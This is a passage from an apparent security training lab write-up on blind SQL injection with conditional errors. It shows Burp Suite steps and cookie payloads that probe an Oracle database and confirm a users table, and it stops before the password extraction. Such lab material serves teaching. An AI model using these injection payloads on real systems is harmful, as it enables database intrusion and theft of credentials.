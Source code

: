 # Lab 12: Blind SQL Injection with Conditional Errors

## Lab Objective:

The objective of this lab is to demonstrate the exploitation of a blind SQL injection vulnerability to retrieve the password of the administrator user. By manipulating the tracking cookie value and observing the application's response to different conditions, we can infer information about the database structure and extract the password character by character.

## Tools Used:

1. **Burp Suite:** Used for intercepting and modifying HTTP requests.
2. **Browser:** Used for accessing the vulnerable web application.

## Lab Procedure:

1. **Accessing the Lab:**
    - Visit the front page of the shop and use Burp Suite to intercept and modify the request containing the TrackingId cookie. Let's say the original value of the cookie is `TrackingId=<id>`.
2. **Exploiting the Blind SQL Injection Vulnerability:**
    - Modify the TrackingId cookie, appending a single quotation mark to it:
        
        ```
        TrackingId=<id>'
        ```
        
    - Verify that an error message is received.
    - Change the TrackingId cookie to two quotation marks:
        
        ```
        TrackingId=<id>''
        ```
        
    - Verify that the error disappears, indicating a syntax error.
    - Construct a subquery using valid SQL syntax:
        
        ```
        TrackingId=<id>'||(SELECT '' FROM dual)||
        ```
        
    - Verify that no error is received, indicating the use of Oracle database.
    - Test an invalid query with valid SQL syntax:
        
        ```
        TrackingId=<id>'||(SELECT '' FROM not-a-real-table)||
        ```
        
    - Receive an error, confirming the processing of injection as a SQL query.
    - Verify the existence of the users table:
        
        ```
        TrackingId=<id>'||(SELECT '' FROM users WHERE ROWNUM = 1)||
        ```
        